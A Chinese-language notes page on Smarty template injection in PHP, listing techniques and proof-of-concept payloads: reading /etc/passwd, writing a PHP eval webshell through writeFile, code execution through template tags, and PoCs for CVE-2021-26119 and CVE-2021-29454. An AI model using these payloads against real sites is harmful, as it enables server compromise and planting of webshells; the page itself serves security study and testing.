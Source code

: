 ```yaml
---
tags:
    - PHP
    - Web Sec
comments: true
---
```

# Smarty 模板注入

[Smarty](https://github.com/smarty-php/smarty){target="_blank"}是最流行的PHP模板语言之一，为不受信任的模板执行提供了安全模式。这会强制执行在 php 安全函数白名单中的函数，因此我们在模板中无法直接调用 php 中直接执行命令的函数(相当于存在了一个disable_function)

## 攻击方式
通过self获取到smarty内置变量后，`{$smarty}` 可以访问到一些内置函数，如 `{$smarty.version}` 可以获取当前 smarty 版本号。通过这个变量，我们可以获取到一些内置函数，如 `{$smarty.now}` 可以获取当前时间戳，`{$smarty.const.PHP_VERSION}` 可以获取 php 版本号。

### getStreamVariable()

getStreamVariable() 这个方法可以获取传入变量的流，通过这个方法我们可以获取到文件内容，如 `{self::getStreamVariable("file:///etc/passwd")}` 

!!! Failure 
    Smarty 3.1.30 已经将 getStreamVariable 静态方法删除

### writeFile()

```php
<?php
public function writeFile($_filepath, $_contents, Smarty $smarty)
//我们可以发现第三个参数$smarty其实就是一个smarty模板类型，要求是拒绝非Smarty类型的输入，这就意味着我们需要获取对Smarty对象的引用
//在smarty中有 self::clearConfig()：
public function clearConfig($varname = null)
{
    return Smarty_Internal_Extension_Config::clearConfig($this, $varname);
}
?>
```

构造payload写webshell：

```php
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php eval($_GET['cmd']); ?>",self::clearConfig())}
```

### 标签

1. `{php} {/php}` 中间的内容会被当做php代码执行
2. `{literal}` 可以让一个模板区域的字符原样输出。 这经常用于保护页面上的Javascript或css样式表，可以实现xss或php5代码执行
3. `{if}{/if}` if语句内可以执行php代码，如 `{if phpinfo()}{/if}`


## 漏洞复现
### CVE-2021-26120
[Todo](/todo)

### CVE-2021-26119
**漏洞原因**：可以通过 {$smarty.template_object} 访问到 smarty 对象<br/>
**修复版本**：3.1.39<br/>
**PoC**: ```string:{$smarty.template_object->smarty->_getSmartyObj()->display('string:{system(whoami)}')}```

### CVE-2021-29454

**漏洞原因**：`libs/plugins/function.math.php` 中的 `smarty_function_math` 执行了 eval()，而 eval() 的数据可以通过 8 进制数字绕过正则表达式

**修复版本**：3.1.42 和 4.0.2 

**PoC**: ```eval:{math equation='("\163\171\163\164\145\155")("\167\150\157\141\155\151")'}```


## 参考资料
[Smarty 最新 SSTI 总结](https://xz.aliyun.com/t/11108){target="_blank"}